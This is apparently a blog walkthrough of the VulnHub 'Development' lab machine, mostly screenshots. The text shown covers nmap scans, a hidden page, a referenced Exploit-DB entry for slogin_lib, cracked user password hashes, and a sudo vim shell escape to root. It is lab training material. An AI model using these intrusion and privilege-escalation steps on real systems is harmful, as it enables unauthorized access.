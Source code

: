 ```yaml
---
layout: post
title:  "vulnhub >_ Development"
description: walkthrough
category: vulnhub
---
```

# Development



```bash
sudo nmap -Pn -v -p- -sS -T5 192.168.43.16
```



![image-20200609015640191]({{ site.url }}/assets/Development.assets/image-20200609015640191.png)

```bash
sudo nmap -v -T4 -sC -sV -p22,113,139,445,8080 192.168.43.16
```

![image-20200609020305877]({{ site.url }}/assets/Development.assets/image-20200609020305877.png)

![image-20200609020436469]({{ site.url }}/assets/Development.assets/image-20200609020436469.png)

![image-20200609020522951]({{ site.url }}/assets/Development.assets/image-20200609020522951.png)



![image-20200609025850000]({{ site.url }}/assets/Development.assets/image-20200609025850000.png)



![image-20200609030000322]({{ site.url }}/assets/Development.assets/image-20200609030000322.png)



![image-20200609025927392]({{ site.url }}/assets/Development.assets/image-20200609025927392.png)

![image-20200609030308050]({{ site.url }}/assets/Development.assets/image-20200609030308050.png)

![image-20200609034055766]({{ site.url }}/assets/Development.assets/image-20200609034055766.png)

```bash
http://192.168.43.16:8080/developmentsecretpage
```

![image-20200609030352781]({{ site.url }}/assets/Development.assets/image-20200609030352781.png)

![image-20200609033609532]({{ site.url }}/assets/Development.assets/image-20200609033609532.png)

![image-20200609033628979]({{ site.url }}/assets/Development.assets/image-20200609033628979.png)

随便尝试一个密码

![image-20200609033732483]({{ site.url }}/assets/Development.assets/image-20200609033732483.png)

slogin_lib.inc.php

![image-20200609075811498]({{ site.url }}/assets/Development.assets/image-20200609075811498.png)

https://www.exploit-db.com/exploits/7444

![image-20200609082652891]({{ site.url }}/assets/Development.assets/image-20200609082652891.png)



![image-20200609081843908]({{ site.url }}/assets/Development.assets/image-20200609081843908.png)

```bash
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81	12345678900987654321
patrick, 87e6d56ce79af90dbe07d387d3d0579e	P@ssw0rd25
qiu, ee64497098d0926d198f54f6d5431f98		qiu
```

![image-20200609083553230]({{ site.url }}/assets/Development.assets/image-20200609083553230.png)

![image-20200609083648687]({{ site.url }}/assets/Development.assets/image-20200609083648687.png)

![image-20200609083738715]({{ site.url }}/assets/Development.assets/image-20200609083738715.png)



![image-20200609083817145]({{ site.url }}/assets/Development.assets/image-20200609083817145.png)

```bash
patrick@development:/home/intern$ sudo /usr/bin/vim
:! /bin/bash
```

![image-20200609084017496]({{ site.url }}/assets/Development.assets/image-20200609084017496.png)







